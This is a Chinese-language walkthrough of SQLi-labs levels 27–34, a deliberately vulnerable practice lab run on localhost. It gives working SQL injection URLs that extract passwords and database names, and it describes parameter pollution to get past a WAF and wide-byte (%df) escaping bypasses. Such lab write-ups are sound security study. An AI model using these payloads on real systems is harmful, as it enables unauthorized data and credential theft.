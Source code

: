 闭合改为("$id")

***

**Less-28**

跟前面基本没区别，闭合为('$id')

***

**Less-28a**

同上

***

**Less-29**

没看懂哪里有WAF，可能是我本地配置有问题

`http://127.0.0.1/sqli/less-29/?id=0' union select 1,(select password from users where id=3),3--+`

看别人的wp是需要参数污染，提交两个id，提供反向代理的服务器解析第一个id，提供web服务的服务器解析第二个，WAF过滤只处理第一个参数

***

**Less-30**

同上

`http://127.0.0.1/sqli/less-30/?id=0" union select 1,user(),3--+`

***

**Less-31**

`http://127.0.0.1/sqli/less-31/?id=0") union select 1,(select password from users where id=3),3--+`

***

**Less-32**

这一关开始是宽字节注入

所谓宽字节就是用两个以上字节表示的，如utf-8编码和GBK编码，不同与ascii的一个字节0-128。在对引号进行过滤时，会添加转义符，urlencode为%5c%27，此时添加%df，%df%5c组成unicode汉字

`http://127.0.0.1/sqli/less-32/?id=0%df%27 union select 1,database(),3--+`

***

**Less-33**

跟上一关一模一样

`http://127.0.0.1/sqli/less-32/?id=0%df%27 union select 1,database(),3--+`

***

**Less-34**

post注入，经尝试uname和passwd都存在单引号过滤。post注入中无法使用URL Encoding的方式绕过，这里使用单引号的utf-16/utf-32编码绕过
